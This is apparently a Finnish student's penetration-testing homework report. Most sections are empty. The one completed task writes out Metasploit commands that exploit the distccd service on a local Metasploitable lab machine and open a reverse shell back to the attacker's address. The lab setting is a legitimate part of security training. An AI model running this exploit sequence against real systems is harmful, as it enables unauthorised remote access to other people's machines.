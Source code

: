 # h3 Nuuskija

## x) Lue ja tiivistä

Popov 2024: Hacktricks: Wireshark tricks [https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/pcap-inspection/wireshark-tricks#improve-your-wireshark-skills](https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/pcap-inspection/wireshark-tricks#improve-your-wireshark-skills)
-
-
-

Karvinen 2023: Find Hidden Web Directories - Fuzz URLs with ffuf [https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/](https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/)
-
-
-

## a) Valitse valmis hyökkäys. Ota sellainen hyökkäys, jonka saat toimimaan omaan paikalliseen harjoitusmaaliin, kuten Metasploitableen. Demonstroi hyökkäyksen toiminta.

Googlasin hyökkäyksiä, ja löysin yhden, joka vaikutti helposti toteutettavalta sivulta [https://dev.to/atenadadkhah/hack-metasploitable-machine-in-5-ways-using-kali-linux-2h9e](https://dev.to/atenadadkhah/hack-metasploitable-machine-in-5-ways-using-kali-linux-2h9e): DISTCCD Open Port.

Avasin msfconsolen ``sudo msfconsole``, etsin hyökkäyksen ``search distccd`` ja valitsin hyökkäyksen ``use 0``. Asetin kohteeksi Metasploitablen ``set RHOSTS 192.168.56.102``.

![image](https://github.com/user-attachments/assets/c3426118-6cd5-48c9-9c7d-9bc6d98f5306)

``show payloads`` katsoin, millaisia payloadeja hyökkäyksessä pystyi käyttämään. Löytämäni ohjeen mukaan valitsin cmd/unix/reverse ``set PAYLOAD 6``, ja sitten ``run``.

Ilmoituksena tuli, että exploit suoritettu, sessiota ei luotu. Katsoin ``show options`` pitäisikö jotain muuta määrittää. Korjasin LHOST ``set LHOST 192.168.56.101``, valitsin saman payloadin ja suoritin exploitin uudelleen. Nyt pääsin sisään, mutten rootina. Päivittämällä session Meterpreter-sessioksi pystyi kuitenkin etenemään, mutta ilman sudo-oikeuksia kaikkialle ei päässyt.

![image](https://github.com/user-attachments/assets/552fe8f1-b26f-4f6b-afc1-3bd457a3b2ca)





## b) Sorsa. Selitä ja arvioi valitsemasi hyökkäyksen toimintaa lähdekoodista.


## c) Snif snif. Selitä ja arvioi valitsemasi hyökkäyksen toimintaa verkkosnifferillä. Pohdi myös, miten näkyvä tämä hyökkäys tai kontrollikanava on verkossa. (Vapaaehtoinen bonus: liitä mukaan pcap tekemästäsi nauhoituksesta).


## d) Fuzzzz. Ratkaise dirfuz-1 artikkelista Karvinen 2023: Find Hidden Web Directories - Fuzz URLs with ffuf.


## d) HTB. Ratkaise 1-2 konetta HackTheBoxisssa. Voit valita omaan taitotasoon sopivat koneet.


## e) Vapaaehtoinen, helppo: Vaihda 'micro' Metasploitin oletuseditoriksi. Sille on oma 'setg' asetus.


## Lähteet


https://dev.to/atenadadkhah/hack-metasploitable-machine-in-5-ways-using-kali-linux-2h9e
